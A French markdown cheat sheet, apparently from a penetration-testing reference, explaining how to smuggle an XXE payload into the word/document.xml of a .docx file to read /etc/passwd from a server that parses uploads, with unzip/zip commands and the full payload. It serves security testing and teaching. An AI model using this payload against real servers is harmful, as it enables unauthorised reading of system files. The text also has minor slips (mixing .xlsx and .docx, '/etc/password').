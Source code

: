 # Office Open XML Document

<img src="logo.png" title="" alt="" height="150">

**Facteur de risque** : XXE

**Extension** : `.docx`, `docm`

**Type MIME** : `application/vnd.openxmlformats-officedocument.wordprocessingml.document`

**Description** : 

**Office Open XML** (OOXML) est un format de fichier **zippé** et basé sur le **XML**, pour représenter des feuilles de calcul, des graphiques, des présentations et des documents de traitement de texte. 

`.docx` est une extension de nom de fichier pour traitement de texte au format Office Open XML. `.docm` permet en plus l'utilisation des **macros**.

Un fichier `.docx` peut être désarchiver comme un fichier `.zip`. Il contient notamment plusieurs fichiers `.xml`. Microsoft conseille d'analyser dans l'ordre :

- le fichier `_rels/.rels`, qui contient les relations en reliant un ID à chaque fichier

- le fichier `[Content_Types].xml` qui contient une liste de type MIME

- le fichier `word/document.xml`, qui donne une vue d'ensemble du contenu du classeur (nom des feuilles, etc.). La plupart du temps, les applications web analysent ce fichier en premier.

Un fichier Excel ou un fichier Google Sheets en `.xlsx` correspond donc en réalité à un fichier archive `.zip` contenant plusieurs fichiers `.xml`. Des payloads pour XXE peuvent être donc injectés dans les fichiers.

## Sommaire

- XML External Entity (XML)

## XML External Entity (XML)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé
- Le serveur web doit analyser et traiter les données du fichier.

### Exploitation

Créez un nouveau fichier Word ou Google Docss vide, puis enregistrez le fichier au format `.docx` (**xxe.xlsx**)

1. Déarchivez le fichier `.docx` dans un répertoire (**FichierMalveillant**) :
   
   ```shell
   unzip xxe.docx -d FichierMalveillant
   ```

2. Le payload XXE doit être ajouté dans le fichier `.xml` que l'application traitera (dans les fichiers `word/document.xml` :
   
   ```xml
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE foo [ <!ELEMENT t ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
   <w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:cx="http://schemas.microsoft.com/office/drawing/2014/chartex" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 w15 w16se wp14"><w:body><w:p w:rsidR="000310EC" w:rsidRDefault="00981224" w:rsidP="00981224"><w:pPr><w:pStyle w:val="Titre"/></w:pPr><w:r><w:t>Titre</w:t></w:r></w:p><w:p w:rsidR="00981224" w:rsidRDefault="00981224"><w:r><w:t>&xxe;</w:t></w:r><w:bookmarkStart w:id="0" w:name="_GoBack"/><w:bookmarkEnd w:id="0"/></w:p><w:sectPr w:rsidR="00981224"><w:pgSz w:w="11906" w:h="16838"/><w:pgMar w:top="1417" w:right="1417" w:bottom="1417" w:left="1417" w:header="708" w:footer="708" w:gutter="0"/><w:cols w:space="708"/><w:docGrid w:linePitch="360"/></w:sectPr></w:body></w:document>
   ```
   
   Ici, le payload a été placé dans le fichier pour récupérer le contenu de `/etc/password`.

3. Archivez à nouveau le fichier `.docx`, puis téléversez-le. (Il faut savoir que le fichier est techniquement correct d'après les spécifications, mais Office n'ouvrira pas le fichier). 
   
   ```shell
   zip -r xxe.docx FichierMalveillant/*
   ```
   
   ou
   
   ```shell
   zip -u xxe.docx word/document.xml
   ```

## References

- Exploiting XXE Vulnerabilities In File Parsing Functionality - YouTube : https://www.youtube.com/watch?v=LZUlw8hHp44
- Black Hat | WebCast: Exploiting XML Entity Vulnerabilities in File Parsing Functionality : https://www.blackhat.com/html/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.html
- GitHub - BuffaloWill/oxml_xxe: A tool for embedding XXE/XML exploits into different filetypes : https://github.com/BuffaloWill/oxml_xxe

## Todo

- Ajouter un payload dans le fichier `[Content_Types].xml`

- Ajouter pour les formats SVG, Libre Office ou Open Office (`word/document.xml` -> `content.xml`), et SVG à l'internieur de LIbre ou Open
